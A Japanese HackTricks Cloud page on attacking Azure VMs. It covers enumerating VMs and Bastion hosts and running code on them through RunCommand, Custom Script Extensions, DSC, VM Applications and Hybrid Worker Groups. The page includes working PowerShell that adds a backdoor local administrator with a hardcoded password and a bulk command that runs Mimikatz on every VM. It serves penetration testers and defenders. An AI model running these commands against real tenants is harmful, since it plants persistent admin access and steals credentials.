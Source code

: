 # Az - 仮想マシンとネットワーク

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## 基本情報

[ドキュメントから:](https://learn.microsoft.com/en-us/azure/virtual-machines/overview) Azureの仮想マシンは、Azureが提供する[オンデマンドでスケーラブルなコンピューティングリソース](https://learn.microsoft.com/en-us/azure/architecture/guide/technology-choices/compute-decision-tree)の一つです。通常、他の選択肢よりもコンピューティング環境に対する制御が必要な場合に仮想マシンを選択します。この記事では、仮想マシンを作成する前に考慮すべきこと、作成方法、および管理方法についての情報を提供します。

## Azureネットワーク情報

Azureネットワークには**異なるエンティティと構成方法が含まれています。** 異なるAzureネットワークエンティティの**簡単な説明、** **例**、および**列挙**コマンドは以下にあります:

{% content-ref url="az-azure-network.md" %}
[az-azure-network.md](az-azure-network.md)
{% endcontent-ref %}

## Azure Bastion

**Azure Bastion**は、Azureポータルを介してSSL経由で安全で完全に管理されたRDP（リモートデスクトッププロトコル）およびSSH（セキュアシェル）アクセスソリューションを提供します。これはAzure仮想ネットワーク内に統合されており、プライベートIPを使用してVMへのRDPおよびSSH接続を可能にし、パブリックIPの必要性を回避します。これにより、VMアクセスのためのパブリックIP割り当てやNSGルール構成を含む従来の方法に対する安全で便利な代替手段となります。開発者やIT担当者は、Azureポータルからウェブブラウザを使用してVMに安全にアクセスでき、開発およびテスト環境のプロセスを効率化します。

サブスクリプション内のすべてのAzure Bastionホストをリストするには、次のコマンドを使用できます:

{% code overflow="wrap" %}
```bash
az network bastion list --query "[].{name:name, resourceGroup:resourceGrou, location:location}" -o table
```
{% endcode %}

## VM 列挙
```powershell
# Get readable VMs
Get-AzVM | fl
# Lis running VMs
Get-AzureRmVM -status | where {$_.PowerState -EQ "VM running"} | select ResourceGroupName,Name
Get-AzVM -Name <name> -ResourceGroupName <res_group_name> | fl *
Get-AzVM -Name <name> -ResourceGroupName <res_group_name> | select -ExpandProperty NetworkProfile

# Get iface and IP address
Get-AzNetworkInterface -Name <interface_name>
Get-AzPublicIpAddress -Name <iface_public_ip_id>

#Get installed extensions
Get-AzVMExtension -ResourceGroupName <res_group_name> -VMName <name>

Get-AzVM | select -ExpandProperty NetworkProfile # Get name of network connector of VM
Get-AzNetworkInterface -Name <name> # Get info of network connector (like IP)
```
## **VM内でコマンドを実行する**

### **VMでのAADログイン**

AzureADを介して認証されたユーザーにアクセスを許可することが可能です。例えば、**linux VM**にアクセスしようとする場合：`ssh username@azure-corp.com@1.1.1.1`（ログインを試みる際に使用したazurecorpの**メールアドレス**を**使用することが重要です**）というエラーが発生することがあります：

{% code overflow="wrap" %}
```
(username@azure-corp.com@1.1.1.1) This preview capability is not for production use. When you sign in, verify the name of the app on the sign-in screen is "Azure Linux VM Sign-in" and the IP address of the target VM is correct.

To sign in, use a web browser to open the page https://microsoft.com/devicelogin and enter the code DT4PNSTGR to authenticate. Press ENTER when ready.
```
{% endcode %}

その**指示に従って**、[https://microsoft.com/devicelogin](https://microsoft.com/devicelogin)にアクセスし、コードを入力し、メールアドレスとパスワードを資格情報として使用すれば、SSH経由で接続できるようになります（そのユーザーに十分な権限がある場合：`Virtual Machine Administrator Login`または`Virtual Machine User Login`ロール）。

### **コマンドを実行**
```powershell
# The permission allowing this is Microsoft.Compute/virtualMachines/runCommand/action
Invoke-AzVMRunCommand -ScriptPath .\adduser.ps1 -CommandId 'RunPowerShellScript' -VMName 'juastavm' -ResourceGroupName 'Research' –Verbose
## Another way
Invoke-AzureRmVMRunCommand -ScriptPath .\adduser.ps1 -CommandId 'RunPowerShellScript' -VMName 'juastavm' -ResourceGroupName 'Research' –Verbose

# Content of the script
$passwd = ConvertTo-SecureString "Welcome2022!" -AsPlainText -Force
New-LocalUser -Name new_user -Password $passwd
Add-LocalGroupMember -Group Administrators -Member new_user
```

```powershell
# Try to run in every machine
Import-module MicroBurst.psm1
Invoke-AzureRmVMBulkCMD -Script Mimikatz.ps1 -Verbose -output Output.txt
```
### **カスタムスクリプト拡張を実行する**

Azure仮想マシン（VM）拡張は、**Azure VMs**上でのデプロイ後の構成および自動化の**タスク**を提供する**小さなアプリケーション**です。たとえば、仮想マシンにソフトウェアのインストール、ウイルス対策、または内部でスクリプトを実行する機能が必要な場合、VM拡張を使用できます。

したがって、書き込むアクセス権がある場合、任意のコードを実行できます：
```powershell
# Microsoft.Compute/virtualMachines/extensions/write
Set-AzVMExtension -ResourceGroupName "Research" -ExtensionName "ExecCmd" -VMName "infradminsrv" -Location "Germany West Central" -Publisher Microsoft.Compute -ExtensionType CustomScriptExtension -TypeHandlerVersion 1.8 -SettingString '{"commandToExecute":"powershell net users new_user Welcome2022. /add /Y; net localgroup administrators new_user /add"}'
```
### DesiredConfigurationState (DSC)

DesiredConfigurationState (DSC) は、コードを通じてホストを設定するために使用される Ansible に似た PowerShell ツールです。DSC は Azure と統合されており、特定の構成ファイルをアップロードできます。これらのファイルは厳格な構文に従う必要があります。特に、Azure の DSC 拡張機能は、特定のフォーマット基準を満たすファイルからコマンドを実行でき、DSC 標準の構文が正しくなくても実行されることがあります。

これらのコマンドの実行は、Az PowerShell の [**`Publish-AzVMDscConfiguration`**](https://docs.microsoft.com/en-us/powershell/module/az.compute/publish-azvmdscconfiguration?view=azps-7.5.0) 関数によって促進されます。要件には、定義された関数を持つ **.PS1** ファイルが含まれ、そのファイルは **.zip** ファイルに圧縮される必要があります。構文が DSC に対して正確でなくても、コードは実行されます。ただし、拡張機能は実行ステータスを「失敗」としてマークし、コマンドからの出力は失敗メッセージによって上書きされるため表示されません。

### VM Application Definitions

VM Application Definitions は、バージョン管理されたアプリケーションを Azure VM に繰り返しデプロイすることを可能にします。このリソースは、VM 全体でのアプリケーションのデプロイと更新をサポートします。これを設定するには、Az PowerShell の **`New-AzGalleryApplication`** および **`New-AzGalleryApplicationVersion`** などのコマンドを含むいくつかの手順が必要です。

この方法でアプリケーションやコマンドを実行するには、アプリケーションが VM に適用されると自動的にインストールされる **"VMAppExtension"** が関与します。拡張機能は、指定された URI からファイルを取得し、拡張子なしでアプリケーションと同じ名前を付けます。ファイルを正しく実行するには、REST API 呼び出しの "ManageActions" フィールドを適切な拡張子でファイルの名前を変更するように設定する必要があります。この方法の設定が完了すると、提供された図に示されている構造に似たものになります。

ただし、この実行方法は比較的遅く、アプリケーションやコマンドを実行するのに約 3-4 分かかります。このプロセスに関連するファイルは、特定のディレクトリに保存されます（アプリケーションコピー用の `C:\Packages\Plugins\Microsoft.CPlat.Core.VMApplicationManagerWindows\1.0.4\Downloads\` と、実行ステータス用の `C:\Packages\Plugins\Microsoft.CPlat.Core.VMApplicationManagerWindows\1.0.4\Status\`）。

両方の技術は、Azure 環境でコマンドを実行し、アプリケーションをデプロイするための独自の方法を提供し、それぞれに独自の要件、手順、および考慮事項があります。

### Hybrid Worker Groups (HWGs) in Azure

[**Hybrid Worker Groups (HWGs)**](https://docs.microsoft.com/en-us/azure/automation/automation-hybrid-runbook-worker) は、Automation Account で構成された Runbook を指定された HWG の一部である Azure Virtual Machine (VM) で実行できる Azure の機能です。この実行は、VM にインストールされた拡張機能を通じて促進され、Runbook コードが VM にデプロイされます。このプロセスの重要な側面は、実際の資格情報が実行に影響しないことです。なぜなら、コードは特権昇格された状態で実行され、具体的には **SYSTEM** または root として実行されるからです。

Windows 10 VM を利用する人にとって重要な詳細は、Runbook の PowerShell バージョンを指定する必要があることです。これは PowerShell バージョン 5.1 として実行されるように設定する必要があります。これは、PowerShell 7.1 がこれらの VM にデフォルトでインストールされていないため、バージョン 7.1 が指定されるとスクリプトの実行が失敗するためです。

Azure のこの機能は、ハイブリッド環境全体でのタスクの自動化と管理のための堅牢な方法を提供し、Azure VM 上でのタスクの集中管理と実行を可能にします。

## References

* [https://learn.microsoft.com/en-us/azure/virtual-machines/overview](https://learn.microsoft.com/en-us/azure/virtual-machines/overview)
* [https://hausec.com/2022/05/04/azure-virtual-machine-execution-techniques/](https://hausec.com/2022/05/04/azure-virtual-machine-execution-techniques/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
